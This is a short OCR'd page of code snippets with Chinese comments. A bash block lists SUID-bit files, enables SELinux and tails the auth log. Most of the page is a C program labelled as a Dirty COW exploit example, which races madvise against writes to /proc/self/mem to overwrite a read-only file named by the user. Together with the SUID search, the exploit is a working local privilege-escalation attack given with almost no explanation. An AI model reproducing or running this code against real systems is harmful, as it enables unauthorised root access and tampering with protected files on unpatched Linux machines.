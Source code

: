 ```bash
# 查找所有具有suid位的文件
find / -perm -4000 -type f -exec ls -l {} \;

# 启用SELinux
setenforce 1

# 查看系统日志
tail -f /var/log/auth.log
```

```c
// Dirty COW Exploit (示例代码)
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("madvise %d\n\n", c);
    return NULL;
}

void *procselfmemThread(void *arg) {
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        lseek(f, (off_t) map, SEEK_SET);
        c += write(f, name, strlen(name));
    }
    printf("procselfmem %d\n\n", c);
    return NULL;
}

int main(int argc, char *argv[]) {
    pthread_t pth1, pth2;

    f = open(argv[1], O_RDONLY);
    fstat(f, &st);
    name = argv[2];

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    pthread_create(&pth1, NULL, madviseThread, NULL);
    pthread_create(&pth2, NULL, procselfmemThread, NULL);

    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);

    return 0;
}
```
